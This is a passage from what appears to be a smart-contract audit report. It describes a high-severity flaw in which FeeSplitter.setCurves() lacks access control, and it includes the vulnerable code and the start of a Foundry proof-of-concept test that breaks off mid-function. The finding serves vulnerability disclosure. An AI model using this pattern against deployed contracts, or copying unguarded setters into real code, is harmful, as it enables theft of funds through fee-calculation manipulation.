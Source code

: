 ## <a name="h-01">[H-01]</a> Anyone Can Set The `Curves` Contract by Calling `Feesplitter.Setcurves()`, Leading Manipulation of Crucial Value Via Interacting With The Malicious `Curves`

* **Severity**: High
* Source: [Anyone Can Set The `Curves` Contract by Calling `Feesplitter.Setcurves()`, Leading Manipulation of Crucial Value Via Interacting With The Malicious `Curves`](https://github.com/code-423n4/2024-01-curves-findings/issues/575)

---
### Description
There is no restriction for the `FeeSplitter.setCurves()`, allowing anyone can invoke the function and set the `Curves` contract to any malicious contract.

```solidity 
35:     function setCurves(Curves curves_) public {
36:         curves = curves_;
37:     }
```
---
### Impact
The `Curves` contract is used in the `balanceOf` and `totalSupply`. These Two crucial functions play an important role in the calculation path of `FeeSpliter`contract.

The following core functions take an effect of this issue:
* `FeeSplitter.updateFeeCredit()`
* `FeeSplitter.getClaimableFees()`
* `FeeSplitter.onBalanceChange()`
* `FeeSplitter.addFees()`
* All functions that interact with these listed above functions
---
### Proof of Concept
1. The attacker can initiate the function call to `FeeSplitter.setCurves()` using the any malicious contract address. 

2. Running this test, it will pass, demonstrating that the attacker can set the `Curves` contract to any address.

Run test: </br>
```forge test --mt test_poc_no_restriction_set_curves_contract -vvv```
</br>

```solidity
    contract SettingCurvesTest is Test {
        FeeSplitter public feeSplitter;
        address public owner;
        address public attacker;
        address public maliciosuContract;

        function setUp() public {
            attacker = makeAddr("attacker");

            vm.prank(owner);
            feeSplitter = new FeeSplitter();
        }

        function test_poc_no_restriction_set_curves_contract() public {
            // initiate the transaction from the non-owner attacker address
            vm.startPrank(attacker);
            // attacker deploy malicious contract
            maliciosuContract = makeAddr("maliciosuContract");
            // attacker attempts to set the Curves
```